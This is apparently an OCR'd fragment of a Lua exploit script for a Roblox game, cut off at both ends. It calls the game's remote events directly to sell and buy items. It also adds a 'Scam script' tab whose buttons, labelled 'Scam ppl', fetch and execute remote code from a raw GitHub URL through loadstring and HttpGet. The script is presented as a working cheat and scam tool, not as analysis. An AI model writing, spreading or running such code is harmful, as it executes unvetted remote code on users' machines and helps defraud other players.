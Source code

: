     game:GetService("ReplicatedStorage").RemoteEvents.Sell:FireServer(unpack(args))
        local args = {
        [1] = "Tulsa rainbow"
    }

    game:GetService("ReplicatedStorage").RemoteEvents.BuyItemCash:FireServer(unpack(args))
end)
local Tab     = Window:NewTab("Scam script")
local Section = Tab:NewSection("scam working !!")
Section:NewButton("Scam 1V", "Scam ppl", function()
loadstring(game:HttpGet(('https://raw.githubusercontent.com/imaboy12321/shhh/main/gaey'),true))()
end)
Section:NewButton("Scam 2V", "Scam ppl", function()